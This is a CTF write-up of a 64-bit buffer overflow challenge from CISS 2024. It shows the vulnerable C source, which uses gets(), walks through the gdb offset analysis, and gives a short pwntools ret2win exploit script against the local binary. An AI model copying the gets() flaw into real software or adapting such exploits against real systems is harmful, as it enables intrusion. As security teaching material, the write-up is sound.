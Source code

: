 ```yaml
---
layout: post
title: "Baby buffer overflow - CISS 2024"
---
```


# Background

This is a pwn challenge from CISS2024, unfortunately this was eventually cancelled because they reused challenges and solutions were found half-way through the ctf :(

# Start

Very simple bof problem just by looking at the source code.

```c
#include <stdio.h>
#include <stdlib.h>

#define TRUE 1 

void gruss() {
    //Kein Teilnehmer wird einen Namen mit mehr als 64 Buchstaben haben
    char name_user[64] = {'\0'};
    printf("Wie heisst du?:\n");
    gets(name_user);
    printf("Hallo %s. Viel Spass bei DBH!\n", name_user);
}

void spass() {
    printf("So macht DBH doch viel mehr Spass.\n");
    char* args[3] = {"/bin/cat", "./flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main(int argc, char* argv[]) {
    gruss();
}
```
> dont ask me why its in german

The usual `gets()` function where it excepts whatever the user throws at it until it receives a `\n` character. This allows us to input more than the allocated size of the buffer.

# More info

A quick `checksec` reviews that there are no protection mechanisms on the binary. 

![Pasted image 20240919222132](https://github.com/user-attachments/assets/e179b3ac-aee5-46fb-9ace-78341bdf8e07)
>maybe its a bit too easy

We also find out the binary is 64bit.
# Exploit

![Pasted image 20240919222524](https://github.com/user-attachments/assets/b26968c6-0140-486b-8f4d-d5ab924a20f2)

A quick gdb tour tells us the address of `name_user` buffer at `rbp - 0x40` is loaded into `rax` at `*gruss + 101` then its moved into `rsi` for `printf`. Lets set a break point at `*gruss + 105`

![Pasted image 20240919223120](https://github.com/user-attachments/assets/2bbd72b8-4e99-4c3c-84b0-5b1ec6482899)

After we hit the breakpoint we can take a look at the registers

![Pasted image 20240919223403](https://github.com/user-attachments/assets/369d8bb0-a69b-4a71-9b3f-36dfdeca3b25)

We obtain the address of `rbp` and from the disassembled code of the `gruss` function, we know that `rbp - 0x40` is where the input buffer starts. 

![Pasted image 20240919223739](https://github.com/user-attachments/assets/71453b2d-af64-470c-9cfb-d8d71490e111)

Taking a look at the stack values we indeed see the `A`'s we send. We also see the return address that we have to overflow at `rbp + 8`. Our job here is very easy because there is no canary for this binary.

![Pasted image 20240919224614](https://github.com/user-attachments/assets/e6a3dc70-447b-4754-8c53-e5474987804e)

We then disassemble the `spass` function which prints out the flag. Because there is no PIE the address of the function will always be `0x4011d2`.

# More exploit

Knowing the offset and what we have to overflow, we craft a simple exploit script.

```python
from pwn import *

context.binary = "/home/kali/greetings"
p = process('/home/kali/greetings')

// 64 buffer + 8 = 72
payload = b'A' * 72 + p64(0x4011d2)

p.sendline(payload)
p.interactive()
```
![Pasted image 20240919224227](https://github.com/user-attachments/assets/6af9b391-a7d2-48b6-ace2-fa512a7fd386)

Great!
